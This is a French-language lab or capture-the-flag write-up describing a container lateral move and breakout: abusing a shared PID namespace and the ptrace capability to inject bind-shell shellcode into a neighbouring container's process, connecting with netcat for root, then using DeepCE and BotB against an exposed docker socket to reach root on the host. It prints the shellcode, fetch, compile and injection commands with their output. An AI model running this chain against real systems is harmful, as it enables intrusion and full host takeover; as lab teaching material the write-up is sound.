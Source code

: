## Container Lateral Escapce


On peut voir que le container `dns_proxy_server` est paramétré pour partager son PID Namespace avec le container `gitlab`. Les processus des 2 containers sont donc visibles par l'un ou l'autre. 

```bash
dexter@Lab:/opt$ cat dps/docker-compose.yml 
version: '3'
services:
    dps:
      image: dns_proxy_server
      environment:
        - MG_REGISTER_CONTAINER_NAMES=1
      volumes:
        - /var/run/docker.sock:/var/run/docker.sock
      pid: container:gitlab
      command: "/app/dns-proxy-server"
      networks:
        - dps
networks:
  dps:
    external: true

```



On peut aussi voir dans le docker-compose du container `dps` la commande lancée lors du démarrage du container : 

```bash
root@gitlab:/# ps aux | grep "/[a]pp/"
root       1801  0.0  0.2 627820  4064 ?        Ssl  07:03   0:00 /app/dns-proxy-server /app/dns-proxy-server
```
Voici les différents namespaces du container gitlab : 

```bash
root@gitlab:/# ll /proc/self/ns/
total 0
dr-x--x--x 2 root root 0 Jun 28 08:08 ./
dr-xr-xr-x 9 root root 0 Jun 28 08:08 ../
lrwxrwxrwx 1 root root 0 Jun 28 08:08 cgroup -> cgroup:[4026531835]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 ipc -> ipc:[4026532554]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 mnt -> mnt:[4026532552]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 net -> net:[4026532556]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 pid -> pid:[4026531836]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 pid_for_children -> pid:[4026531836]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 user -> user:[4026531837]
lrwxrwxrwx 1 root root 0 Jun 28 08:08 uts -> uts:[4026532553]

```

Et les namespaces du container dps : 

```bash
root@gitlab:/# ll /proc/1801/ns
total 0
dr-x--x--x 2 root root 0 Jun 28 08:09 ./
dr-xr-xr-x 9 root root 0 Jun 28 07:45 ../
lrwxrwxrwx 1 root root 0 Jun 28 08:09 cgroup -> cgroup:[4026531835]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 ipc -> ipc:[4026532616]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 mnt -> mnt:[4026532614]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 net -> net:[4026532618]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 pid -> pid:[4026531836]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 pid_for_children -> pid:[4026531836]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 user -> user:[4026531837]
lrwxrwxrwx 1 root root 0 Jun 28 08:09 uts -> uts:[4026532615]
```

On peut voir qu'en plus de partager le namespace PID ils partagent aussi le namespace users. Ce qui veut dire que root sur container gitlab sera aussi root sur le container dps.

Le docker-compose de gitlab nous montre une capabilities qui n'est pas par défaut lors de la création d'un container : ptrace. 

Ceci est confirmé dans le container : 

```bash
root@gitlab:/tmp# capsh --print | grep ptrace
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
```

La combinaison de ces 2 mauvaises pratiques/configuration va nous permettre de réaliser une injection de code au sein d'un processus. 

Voici un article sur l'injection de code dans un process running : [https://0x00sec.org/t/linux-infecting-running-processes/1097](https://0x00sec.org/t/linux-infecting-running-processes/1097) qui explique et propose un POC. 

Ce qu'il faut retenir c'est que tout les programmes de debug utilisent la capabilitie `ptrace`. Cette dernière permet de s'attacher à un process et de le modifier. 


### Exploit Process Injection 

```bash
root@gitlab:/dev/shm# wget https://raw.githubusercontent.com/0x00pf/0x00sec_code/master/mem_inject/infect.c

```

On remplace dans l'exploit le shellcode pour y mettre un bind sur le port 5600 (Comme ça on maitrise le paramètre du Reverse Shell dans l'exploit)

ShellCode : [https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128)

Il faut remplacer dans l'exploit `infect.c` : 

```bash 

#define SHELLCODE_SIZE 32

unsigned char *shellcode =
  "\x48\x31\xc0\x48\x89\xc2\x48\x89"
  "\xc6\x48\x8d\x3d\x04\x00\x00\x00"
  "\x04\x3b\x0f\x05\x2f\x62\x69\x6e"
  "\x2f\x73\x68\x00\xcc\x90\x90\x90";
```

par 


```bash 

#define SHELLCODE_SIZE 87

unsigned char *shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";
```

```bash
apt update && apt install gcc
root@gitlab:/dev/shm# gcc infect.c -o /tmp/infect
root@gitlab:/tmp# ./infect 
Usage:
        ./infect pid

root@gitlab:/tmp# ./infect 1801
+ Tracing process 1801
+ Waiting for process...
+ Getting Registers
+ Injecting shell code at 0x45c7e0
+ Setting instruction pointer to 0x45c7e2
+ Run it!
```

Le processus a bien été infecté par l'exploit. Le code malveillant ajouté au processus permet de spawn un Revershell sur le port 5600. 
Il faut maintenant trouver l'ip du container `dps`. 

Le container `gitlab` sur lequel on se trouve actuellement et le container `dps` sont sur le même network docker comme vu dans leur docker-compose. Notre user `dexter` n'a pas la permission de lancer de commande docker. Il va falloir trouver l'ip manuellement à partir du container. 

```bash 
root@gitlab:/tmp# hostname -i
172.19.0.2
``` 

On part du principe que le container `dps` sera en `172.19.0.3`
Pour se connecter à ce container on utilise netcat (qu'il faut installer comme gcc).

```bash 
root@gitlab:/tmp# nc 172.19.0.3 5600
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@448e6b22790a:/app# 
```

Une fois root sur le container `dps` il va falloir s'échapper de ce container pour arriver root sur l'host. 

## Container Breakout 

Lors de l'énumération avec le compte `dexter` on a pu avoir accès en lecture sur les docker-compose. 
On s'est rendu compte que le socket docker était exposé dans le container `dps`.
Ce partage de socket est une vulnérabilité et ne dois absolument pas être fait ou alors dans des conditions bien précises .

Nous allons l'utilisé pour passer accéder au FS entier de l'host. 

On peut faire ça à la main ou alors utiliser [deepce](https://github.com/stealthcopter/deepce). 
DeepCE est un script d'énumération docker (Comme un Linpeas/LinEnum).

Pensez à installer curl pour exploiter le socket docker.

On ne pourr pas monter de Reverse Shell sur notre Kali car les container n'ont pas d'accès direct au LAN.


```bash
oot@448e6b22790a:/app# ./deepce.sh                                                                                                                                                    [18/18]

                      ##         .                                                             
                ## ## ##        ==                                                             
             ## ## ## ##       ===           
         /"""""""""""""""""\___/ ===                                                           
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/ 
           \    \         __/
            \____\_______/
          __
     ____/ /__  ___  ____  ________                                                            
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE               
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/                                                                           
                                               
 Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
 by stealthcopter                 
                                               
==========================================( Colors )==========================================
[+] Exploit Test ............ Exploitable - Check this out
[+] Basic Test .............. Positive Result
[+] Another Test ............ Error running check        
[+] Negative Test ........... No 
[+] Multi line test ......... Yes                              

===================================( Enumerating Platform )===================================                                                                                                [+] Inside Container ........ Yes
[+] Container Platform ...... docker                                                           
[+] Container tools ......... None
[+] User .................... root
[+] Groups .................. root                                                             
[+] Docker Executable ....... Not Found
[+] Docker Sock ............. Yes                                                              
srw-rw---- 1 root 998 0 Jun 28 07:00 /var/run/docker.sock
[+] Sock is writable ........ Yes                                                              
The docker sock is writable, we should be able to enumerate docker, create containers 
and obtain root privs on the host machine
See https://stealthcopter.github.io/deepce/guides/docker-sock.md      
```


DeepCE nous a montré qu'un SOCKET été en lecture/écriture. Nous allons utiliser [Break out the Box](https://github.com/brompwnie/botb) pour sortir du container. 

Go étant un peu lourd à installer nous allons passer par la release direct : 
[https://github.com/brompwnie/botb/releases](https://github.com/brompwnie/botb/releases)

```
root@448e6b22790a:/tmp# ./botb-linux-amd64 -autopwn                                                                                                                                      [6/6]
[+] Break Out The Box                                                                                                                                                                         
[+] Attempting to autopwn                                                                      
[+] Hunting Docker Socks
[+] Attempting to autopwn:  /run/docker.sock                                                                                                                                                  
[+] Attempting to escape to host...                                                                                                                                                           
[+] Attempting in TTY Mode
```

Ce que fait BotB est simple, il installe docker via les sources officielles, et ensuite en utilisant le socket docker présent sur l'hôte il créer un container en lui montant le FS de l'hôte comme volume sur le nouveau container crée. 

Voici le bout de code dans BotB qui permet de gérér le pwn : https://github.com/brompwnie/botb/blob/74ec7f0cac5da365176d2f9f4fb41beb97b97963/utils.go#L472 



Voilà Root sur l'host. 
